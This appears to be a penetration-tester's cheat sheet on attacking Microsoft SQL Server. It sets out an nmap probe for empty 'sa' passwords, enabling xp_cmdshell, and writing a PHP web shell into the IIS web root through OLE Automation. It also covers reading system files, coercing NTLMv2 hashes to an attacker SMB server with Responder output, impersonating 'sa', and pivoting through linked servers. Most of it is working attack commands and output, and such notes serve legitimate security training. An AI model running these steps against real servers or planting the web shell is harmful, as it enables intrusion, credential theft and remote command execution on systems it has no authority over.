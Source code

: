 Nmap:
```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

```SQL
SELECT name FROM sys.databases
GO
```


# Dangerous Settings
- MSSQL clients not using encryption to connect to the MSSQL server.
- The use of self-signed certificates when encryption is being used. Possible to spoof self-signed certificates.
- The use of [named pipes](https://docs.microsoft.com/en-us/sql/tools/configuration-manager/named-pipes-properties?view=sql-server-ver15).
- Weak & default `sa` credentials. Admins may forget to disable this account.
## XP_CMDSHELL
If we have appropriate privileges, we can enable `xp_cmdshell`:
```mysql
-- To allow advanced options to be changed.  
> EXECUTE sp_configure 'show advanced options', 1

-- To update the currently configured value for advanced options.  
> RECONFIGURE
 
-- To enable the feature.  
> EXECUTE sp_configure 'xp_cmdshell', 1
  
-- To update the currently configured value for this feature.  
RECONFIGURE

```
There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). Or additional functionalities like the `xp_regwrite` command, used to elevate privileges by creating new entries in the Windows registry.
# Write Local Files
>Required Admin privileges to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option)
## 1. Enable Ole Automation Procedures
```mysql
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
## 2. Create File
```mysql
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
# Read File
>Same read permission as the system account.
```sql
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
# Capture Service Hash
The undocumented stored procedures `xp_subdirs` and `xp_dirtree` uses SMB protocol to retrieve a list of child directories. We can use a stored procedure and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

```mysql
1> EXEC master..<xp_dirtree/xp_subdirs> '\\10.10.110.17\share\'
2> GO
```
If the service account has access to our server, we will obtain its hash. We can then attempt to crack the hash or relay it to another host.
>Relay might not work on same host as Windows patched it for originating system.
## SMB Servers
### [[Responder]]
```shell-session
$ sudo responder -I tun0
... SNIP ...
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3ab...SNIP...
```
### [[SMBServer]]
```shell-session
$ impacket-smbserver share ./ -smb2support
... SNIP ...
[*] Incoming connection (10.129.203.7,49728)
[*] AUTHENTICATE_MESSAGE (WINSRV02\mssqlsvc,WINSRV02)
[*] User WINSRV02\mssqlsvc authenticated successfully                        
[*] demouser::WIN7BOX:5e3ab...SNIP...
```
# Impersonate Users
>Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned.
## Identify Users to Impersonate
```mysql
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
>**Note:** If a user isn't sysadmin, they still might be able to access other databases or linked servers
## Verify Current User/Role
```mysql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
If we see `0` we do not have sysadmin role, but can still impersonate `sa` user.
## Impersonate User
```mysql
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
We should see `1` for a successful transaction
>**Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If the impersonated user doesn't have access to the DB you are connecting to, it will present an error. Do `USE master`.

# Linked Servers
If an SQL server has linked server configured, we could move laterally to that database server. If it is configured using credentials from remote server, and those credentials have sysadmin privileges, we could execute commands on that remote SQL instance.
## Identify Linked Servers
```mysql
1> SELECT srvname, isremote FROM sysservers
2> GO
```
`1` means a remote server, `0` means a linked server.
## Identify User
Identify the user used for the connection and its privileges. The [EXECUTE](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql) statement sends pass-through commands to linked servers.
```mysql
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<IP>\<LINKED-SERVER>]
2> GO

------------------------------ ------------------------------ 
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote
```
>**Note:** If we need to use quotes in our query to the linked server, use single double quotes to escape the single quote. To run multiples commands at once, divide them up with a semi colon (;)
# Clients
Clients to access MSSQL:
### Linux
- [[MSSQLclient|Impacket-MSSQLClient]]
- [[sqsh]]
- [[dbeaver]]
- [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)
### Windows
- [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)
- [SQL Server PowerShell](https://docs.microsoft.com/en-us/sql/powershell/sql-server-powershell?view=sql-server-ver15)
- [HeidiSQL](https://www.heidisql.com/)
- [SQLPro](https://www.macsqlclient.com/)
- [[sqlcmd]]



